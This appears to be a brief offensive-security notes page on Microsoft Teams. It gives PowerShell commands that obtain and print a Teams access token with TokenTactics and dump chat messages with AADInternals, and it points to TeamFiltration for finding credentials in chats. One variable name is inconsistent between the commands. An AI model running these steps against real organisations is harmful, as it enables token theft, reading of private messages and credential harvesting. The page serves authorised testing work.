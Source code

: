 ```yaml
---
title: Microsoft Teams
---
```


> Under construction 🚧

Obtain an access token for Teams with [[notes/tools/tokentactics]].

~~~ powershell
RefreshTo-MSTeamsToken -domain corp.com
echo $MSGraphToken.access_token
~~~

Access messages with [[notes/tools/aadinternals]].

~~~ powershell
Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | ft id,content,deletiontime,*type*,DisplayName
~~~

Search for credentials in Teams chats with [TeamFiltration](https://github.com/Flangvik/TeamFiltration).
